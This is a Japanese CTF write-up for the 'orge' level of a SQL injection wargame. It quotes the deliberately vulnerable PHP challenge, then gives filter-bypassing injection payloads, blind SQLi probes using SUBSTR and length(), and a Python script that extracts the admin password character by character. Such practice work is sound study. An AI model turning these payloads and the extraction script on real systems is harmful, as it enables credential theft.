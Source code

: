 # orge

## answer

- [orge](../src/orge.py)

## problem

```
query : select id from prob_orge where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=1
```

とすると

```
query : select id from prob_orge where id='guest' and pw='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```

これは前と同じ。

違う点といえば、

```
$_GET[pw] = addslashes($_GET[pw]); 
$query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
```

答えが欲しければ最後にはadminでログインする必要あり。

ちなみに、addslashesにより、以下の文字はエスケープされる。

- シングルクォート (')
- ダブルクォート (")
- バックスラッシュ (\)
- NUL (NULL バイト)

```?pw=1'||id='admin```

これでいく。

```https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=1'%7C%7Cid%3D'admin```

```
query : select id from prob_orge where id='guest' and pw='1'||id='admin'

Hello admin
```

とでた。

どうやら問題は解けてないようだ。

多分```if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");```の後半の条件文がfalseでクリア条件が実行されてない。

もし```$query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; ```が成功していたら、Hello adminって画面に出してくれるので、BlindSQLiかなと思う。

SUBSTRでエクスプロイトのプロトタイプを作ってみる。空白は禁止されてない。のびのびやろう。


```?pw=1' || SUBSTR(pw,1,1) < 'A' && id='admin```

```?pw=1' || SUBSTR(pw,1,1) > 'A' && id='admin```

この２つで挙動が変わってくれって願いながらやってみる。URLエンコード

```?pw=1'%20%7C%7C%20SUBSTR(pw%2C1%2C1)%20%3C%20'A'%20%26%26%20id%3D'admin```

```?pw=1'%20%7C%7C%20SUBSTR(pw%2C1%2C1)%20%3E%20'A'%20%26%26%20id%3D'admin```

上の方のエクスプロイトのみ```Hello Admin```を返す。

どうやらいけそう。

じゃあ、コードを書いていくぜ。


```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            val = '1\' || SUBSTR(pw,{count},1)=\'{char}\' && id = \'admin'.format(count = count, char = char)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                print("not found")
                return
            time.sleep(0.1)
    print(password)

if __name__ == "__main__":
    main()
```

## supplementary

これも前に言ったかもだけど、先にパスワードの長さを取得するのもスタンダードらしいっす。

```
?pw=1' || length(pw)=8 && id='admin
```

こんな感じかな？

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashed | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [論理演算子 | MySQL manual](https://dev.mysql.com/doc/refman/5.6/ja/logical-operators.html)